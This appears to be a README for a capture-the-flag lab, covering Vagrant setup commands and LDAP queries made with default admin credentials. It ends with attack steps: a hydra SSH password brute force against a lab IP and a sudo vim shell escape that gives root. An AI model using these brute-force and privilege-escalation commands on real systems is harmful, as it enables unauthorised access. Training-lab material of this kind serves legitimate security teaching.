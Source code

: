 In order to deploy the environment
- Install vagrant
- Run "vagrant up"
- Run "vagrant provision" if the machine is up and you want to deploy ansible on it 
- Run "vagrant ssh" to access to the machine
- Run "vagrant rsync-auto" to rsync folders to vagran machine
- Run "vagrant destroy -f" to destroy the machine 



Ldap commands: 
- ldapsearch -x -s base -b "" -H ldap://ns-server-1 namingContexts // to check the base
- ldapsearch -x -D "cn=admin,dc=ctf,dc=local" -b "dc=ctf,dc=local" -H ldap://ns-server-1 -w admin // to check the users
- ldapwhoami -x -D "uid=carol,ou=users,dc=ctf,dc=local" -w <password> -H ldap://ns-server-1


To crack ssh_keys 
- hydra -L usernames.txt -P password.txt ssh://192.168.1.86 -t 4 -vV // usar esos ficheros o el common-dictionary
- Do an ssh with david and run --> sudo vim -c ':!/bin/sh --> access with root